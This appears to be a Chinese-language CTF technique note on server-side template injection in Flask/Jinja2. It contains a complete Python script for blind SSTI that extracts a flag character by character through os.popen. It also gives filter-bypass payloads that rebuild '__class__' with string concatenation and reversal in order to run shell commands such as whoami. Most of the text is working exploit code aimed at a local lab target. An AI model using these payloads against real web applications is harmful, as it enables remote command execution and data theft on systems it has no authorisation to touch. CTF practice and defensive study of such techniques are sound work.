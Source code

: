 ​	盲注脚本:

```python
# -*- coding: utf-8 -*-
# @Time : 20.12.26 22:42
# @author:lonmar
# SSTI盲注
import requests

url = 'http://127.0.0.1:5000/'
payload = "?name={% if config.__class__.__init__.__globals__['os'].popen('type flag').read()[0:1]=='f' %}1{% endif %}"
str1 = "?name={% if config.__class__.__init__.__globals__['os'].popen('type flag').read()"
str2 = "%}1{% endif %}"
flag = ' '
i = -1
while True:
    esp = 128
    ebp = 32
    mid = 0
    i = i + 1
    if flag[-1] == '}':
        break
    while True:
        mid = int((esp+ebp)/2)
        payload = str1 + f"[{i}:{i+1}]>'{chr(mid)}'" + str2
        res = requests.get(url=url+payload)
        if '1' in res.text:
            ebp = mid + 1
        else:
            esp = mid
        if mid == int((esp+ebp)/2):
            flag = flag + chr(mid)
            print(flag)
            break
```

## 过滤关键词

### 过滤class

下面两个是等价的(调用对象)

```python
"".__class__
"".__getattribute__("__class__")
```

**可以利用反转字符和拼接字符**

` "cla"+"ss" ` 和` "__ssalc__"[::-1] `或者`"cla""ss"`

 ```python
{{ config["__cla""ss__"].__init__.__globals__['os'].popen('whoami').read() }}
{{config.__getattribute__("__cla""ss__").__init__.__globals__['os'].popen('whoami').read()}}
{{config.__getattribute__("__ssalc__"[::-1]).__init__.__globals__['os'].popen('whoami').read()}}
 ```
